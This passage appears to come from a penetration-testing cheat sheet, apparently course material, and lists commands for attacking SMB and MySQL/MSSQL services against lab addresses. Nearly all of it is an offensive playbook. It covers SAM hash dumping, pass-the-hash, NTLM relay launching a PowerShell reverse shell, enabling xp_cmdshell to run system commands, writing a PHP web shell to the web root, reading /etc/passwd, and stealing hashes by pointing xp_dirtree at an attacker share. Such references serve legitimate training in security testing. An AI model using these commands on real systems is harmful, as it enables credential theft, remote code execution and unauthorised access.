 |`crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`|Extract hashes from the SAM database.|
|`crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`|Use the Pass-The-Hash technique to authenticate on the target host.|
|`impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`|Dump the SAM database using `impacket-ntlmrelayx`.|
|`impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>`|Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`.|

## Attacking SQL Databases

|**Command**|**Description**|
|---|---|
|`mysql -u julio -pPassword123 -h 10.129.20.13`|Connecting to the MySQL server.|
|`sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30`|Connecting to the MSSQL server.|
|`sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h`|Connecting to the MSSQL server from Linux.|
|`sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h`|Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server.|
|`mysql> SHOW DATABASES;`|Show all available databases in MySQL.|
|`mysql> USE htbusers;`|Select a specific database in MySQL.|
|`mysql> SHOW TABLES;`|Show all available tables in the selected database in MySQL.|
|`mysql> SELECT * FROM users;`|Select all available entries from the "users" table in MySQL.|
|`sqlcmd> SELECT name FROM master.dbo.sysdatabases`|Show all available databases in MSSQL.|
|`sqlcmd> USE htbusers`|Select a specific database in MSSQL.|
|`sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES`|Show all available tables in the selected database in MSSQL.|
|`sqlcmd> SELECT * FROM users`|Select all available entries from the "users" table in MSSQL.|
|`sqlcmd> EXECUTE sp_configure 'show advanced options', 1`|To allow advanced options to be changed.|
|`sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1`|To enable the xp_cmdshell.|
|`sqlcmd> RECONFIGURE`|To be used after each sp_configure command to apply the changes.|
|`sqlcmd> xp_cmdshell 'whoami'`|Execute a system command from MSSQL server.|
|`mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'`|Create a file using MySQL.|
|`mysql> show variables like "secure_file_priv";`|Check if the the secure file privileges are empty to read locally stored files on the system.|
|`sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`|Read local files in MSSQL.|
|`mysql> select LOAD_FILE("/etc/passwd");`|Read local files in MySQL.|
|`sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'`|Hash stealing using the `xp_dirtree` command in MSSQL.|
|`sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'`|Hash stealing using the `xp_subdirs` command in MSSQL.|
|`sqlcmd> SELECT srvname, isremote FROM sysservers`|Identify linked servers in MSSQL.|
|`sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]`|Identify the user and its privileges used for the remote connection in MSSQL.|
